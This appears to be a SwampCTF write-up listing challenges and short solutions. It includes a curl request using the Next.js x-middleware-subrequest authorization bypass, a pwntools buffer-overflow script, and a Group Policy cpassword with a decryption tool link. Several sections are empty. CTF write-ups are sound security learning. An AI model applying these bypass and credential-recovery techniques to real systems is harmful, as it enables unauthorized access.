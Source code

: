 * * *
### CTF: **SwampCTF**
* * *

![image](https://github.com/user-attachments/assets/e85ba37f-462c-4762-9886-468bf675e5ea)


--------------------------------

### Challenges

- Web:
  - Serialies
  - SlowAPI 

- Pwn:
  - Beginner Pwn 1
  - Beginner Pwn 2

- Misc:
  - Lost In Translation 
    
- Forensics:
  - Preferential Treatment

- Osint:
  - Party Time! 
  - Party Time! Level 2 

- Crypto:
  - Rock my Password 
  - Intercepted communications
  
--------------------------------
   
### Web:

### Challenge: Serialies
![image](https://github.com/user-attachments/assets/64b27c27-c8b1-4d4a-8e72-2859105706a7)

After I Download the file ```serialies.zip```
In the PersonController.java file, we find the /api/person endpoint. Navigating there gives us the flag.

![image](https://github.com/user-attachments/assets/9bf8ffdd-7fa3-44e9-80a8-df9f40389e33)
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}

--------------------------------


### Challenge: SlowAPI 
![image](https://github.com/user-attachments/assets/7639e47e-e6fb-4373-9cc0-c5fc4bfc6e2d)

- IT The RECENT NEXT.JS VULNERABILITY!!!!
```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script
python3[from pwn import *

# Set up connection to the challenge server
HOST = "chals.swampctf.com"
PORT = 40004

# Buffer overflow payload
payload = b"A" * 10 + b"\x01\x00\x00\x00"  # Overwrite is_admin to 1 (true)

# Start interaction
p = remote(HOST, PORT)
p.recvuntil(b"please enter your name: ")
p.sendline(payload)

# Read output to check if admin
print(p.recv().decode())

# Send "y" to print flag
p.sendline(b"y")

# Receive and print flag
print(p.recvall().decode())

# Close connection
p.close()
]
 
### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script


--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace "https://www.dcode.fr/whitespace-language"</a>




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:
![image](https://github.com/user-attachments/assets/84ac06e1-0957-45a5-ab7b-3c04a9dbc6b6)

when checking the pcap following the tcp you can see the following:
"<Groups clsid="{3125E937-EC16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-52E5-4d24-8B1A-D9BDE98BA1D1}" name="swampctf.com\Administrator" image="2"
          changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" newName="" fullName="" description=""
                    cpassword="dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
                    changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="swampctf.com\Administrator"/>
    </User>
</Groups>"
then I looked up what that was and realized it was a weakly encrypted password
so I found a repo to decrypt it.
"https://github.com/t0thkr1s/gpp-decrypt"



--------------------------------


### OSINT      

### Challenge: Party Time! 
![image](https://github.com/user-attachments/assets/f3f16896-d45f-461a-9c41-b047cb34c697)



### Challenge: Party Time! Level 2
![image](https://github.com/user-attachments/assets/dcd2698c-1dd1-479b-b215-517fa5dec4f3)



--------------------------------

### CRYPTO:

### Challenge: Rock my Password 
![image](https://github.com/user-attachments/assets/bba615e3-4145-4d6d-9129-5a296d8598ba)


### Challenge: Intercepted communications
![image](https://github.com/user-attachments/assets/b84f48ac-de68-4af6-b0cd-dc8dd0cdf699)





--------------------------------

Thanks for reading!!!!!

* * *


